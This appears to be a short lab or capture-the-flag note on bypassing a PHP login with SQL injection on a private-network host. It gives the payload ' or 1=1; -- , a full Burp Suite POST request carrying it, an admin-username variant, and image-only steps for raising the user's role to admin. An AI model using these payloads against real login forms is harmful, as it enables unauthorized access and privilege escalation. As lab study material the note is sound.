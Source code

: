 
![[Pasted image 20231108091949.png]]


# Login SQL-Injection  as User (Role: Customer)

## Browser
Username: egal
Password: ``` ' or 1=1; --  ```

## Burp Suite



```
POST /routers/router.php HTTP/1.1
Host: 10.0.68.105
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://10.0.68.105
Connection: close
Referer: http://10.0.68.105/login.php
Cookie: PHPSESSID=ldhu662ju9tu9ke4a00isemnfj
Upgrade-Insecure-Requests: 1

username=test&password=%27+or+1%3D1%3B+--+
```

```
username=admin&password='+or+1%3d1;+--+'
```


![[Pasted image 20231210165948.png]]

## Change rolle of Current User to Admin

![[Pasted image 20231210171514.png]]

## relogin (as admin)

![[Pasted image 20231210171600.png]]
